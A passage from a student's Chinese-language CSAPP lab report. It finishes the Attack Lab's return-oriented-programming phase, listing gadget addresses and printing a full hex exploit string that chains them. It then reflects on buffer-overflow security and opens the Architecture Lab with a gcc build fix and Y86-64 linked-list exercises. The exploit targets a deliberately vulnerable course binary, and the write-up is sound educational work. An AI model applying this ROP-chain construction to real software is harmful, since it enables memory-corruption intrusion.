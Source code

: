 然后：`movl	%ecx, %esi`，这个指令的指令字节为`89 ce`，这一步的地址是`0x401a13`。

![image-20220608232834517](/media/sprout/SproutUSTC/CSAPP  Lab Report2.assets/image-20220608232834517.png)

然后：`lea	(%rdi, %rsi, 1), %rax`，这个指令直接可以找到，地址是`0x4019d6`。

![image-20220608233021753](/media/sprout/SproutUSTC/CSAPP  Lab Report2.assets/image-20220608233021753.png)

最后：`movq	%rax, %rdi`，这个指令上一 Phase 用过，位于`0x4019a2`。

总上，我们构造一个字符串：

```
20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 06 1A 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 CC 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 DD 19 40 00 00 00 00 00 70 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00
```

保存为`level3_5.txt`，做测试：

![image-20220608233547752](/media/sprout/SproutUSTC/CSAPP  Lab Report2.assets/image-20220608233547752.png)

### 实验总结

是一个做起来非常有趣的 lab！也学到了很多东西！我们一般做程序开发，都忽视了缓冲区的安全问题，在我原来的印象中，这个安全问题就是 Segmentation Fault 之类的，没想到还可以用来做程序攻击，还能想到利用自己的子程序段攻击自己的方法，感觉收获颇丰！

并且，学完之后对栈的理解更加地深入，今后也会在程序设计中更多的注意到缓冲区（更宽泛地讲：程序）的安全问题。

## 4 Architecturelab

> 由于实验 Writeup 较老，与最新的 gcc 出现了一些适配问题，经过一些尝试找到了成功编译 sim 的方法：
>
> - 在 `./sim` 下各个子文件夹的 `Makefile` 中的 `CFLAGS` 和 `LCFLAGS` 后面加上 `-fcommon`，如
>
> ```makefile
> CFLAGS=-Wall -O1 -g -fcommon
> LCFLAGS=-O1 -fcommon
> ```

### Part A

在 `./sim/misc` 下完成这一部分。这一部分需要我们用 `Y86-64` 汇编实现 `examples.c` 中的三个与链表有关的函数。

```C
/* linked list element */
typedef struct ELE {
    long val;
    struct ELE *next;
} *list_ptr;

/* sum_list - Sum the elements of a linked list */
long sum_list(list_ptr ls);
/* rsum_list - Recursive version of sum_list */
long rsum_list(list_ptr ls);
/* copy_block - Copy src to dest and return xor checksum of src */
long copy_block(long *src, long *dest, long len);
```

